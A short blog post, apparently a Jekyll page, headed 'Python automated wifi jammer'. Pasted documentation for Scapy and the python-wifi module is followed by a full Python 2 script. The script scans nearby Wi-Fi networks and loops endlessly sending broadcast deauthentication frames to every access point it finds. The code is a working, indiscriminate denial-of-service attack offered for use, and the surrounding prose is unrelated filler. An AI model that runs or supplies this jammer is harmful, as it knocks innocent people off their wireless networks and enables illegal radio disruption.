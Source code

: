 ```yaml
---
layout: article
title:  Python automated wifi jammer
date: 2019-01-20 02:45:00+0200
coverPhoto: https://4.bp.blogspot.com/-VbC72mXvnDI/WO22xbcnzzI/AAAAAAAABEs/qhcZC1eZJFM1iepIVfeZgcH8dNleVOGhQCPcBGAYYCw/s1600/19b1a10c2a8ed261-3880217547.jpg.jpg
---
```


![]( https://4.bp.blogspot.com/-VbC72mXvnDI/WO22xbcnzzI/AAAAAAAABEs/qhcZC1eZJFM1iepIVfeZgcH8dNleVOGhQCPcBGAYYCw/s1600/19b1a10c2a8ed261-3880217547.jpg)

Each of these steps can be done in a different way depending on your platform and on the version of Scapy you want to use.

At the moment, there are two different versions of Scapy:

Scapy v2.x. The current up-to-date version. It consists of several files packaged in the standard distutils way. Scapy v2 <= 2.3.3 needs Python 2.5, Scapy v2 > 2.3.3 needs Python 2.7 or 3.4+.
Scapy v1.x (deprecated). It does not support Python 3. It consists of only one file and works on Python 2.4, so it might be easier to install. Moreover, your OS may already have specially prepared packages or ports for it. The last version is v1.2.2.

# Project description
Python WiFi is a Python module that provides read and write access to a wireless network card’s capabilities using the Linux Wireless Extensions. It was initially developed by Roman Joost with advice from Guido Goldstein of Infrae. It is currently maintained by Sean Robinson.

More information is available at http://pythonwifi.tuxfamily.org. A mailing list for announcements and developer discussion is available at pythonwifi@lists.tuxfamily.org.

Check the ./docs/feature_matrix_*.txt files for a detailed list of what is implemented. This may not work with 64-bit Linux kernels, I would appreciate reports of success or failure on such systems.

# Source code :

```python
	#!/usr/bin/python
	###################################################################
	#
	#                      Python Wifi Jammer
	#                        Youssef Boubli
	#
	###################################################################
	from scapy.all import *
	from wifi import Cell
	import time
	import wireless

	wifi1 = wireless.Wireless()
	interface = wifi1.interface()

	all_wifi = Cell.all(interface)
	#print "SSID\t BSSID\t Channel\t Power\t"
	print "[+] scannig for networks .."
	bssid = []
	time.sleep(2)
	for wi in all_wifi:
	 print "SSID is    : "  +    wi.ssid 
	 print "BSSID is   : "  +    wi.address
	 print "Channel is : "  +    str(wi.channel)
	 print "Quality is : "  +    str(wi.quality)
	 print "+" * 20
	 bssid.append(wi.address)
	 time.sleep(0.5)

	print "#" * 70

	def jam(address):
	 conf.iface = "mon1"
	 bssid = address   
	 client = "FF:FF:FF:FF:FF:FF" #
	 count = 3 
	 conf.verb = 0
	 packet = RadioTap()/Dot11(type=0,subtype=12,addr1=client,addr2=bssid,addr3=bssid)/Dot11Deauth(reason=7)
	 for n in range(int(count)):
		sendp(packet)
	        print 'Deauth num '+ str(n)  +  ' sent via: ' + conf.iface + ' to BSSID: ' + bssid + ' for Client: ' + client
	while True:
	 for item in bssid: 
	  print "Jamming on : {0}".format(item)
	  jam(item)
```
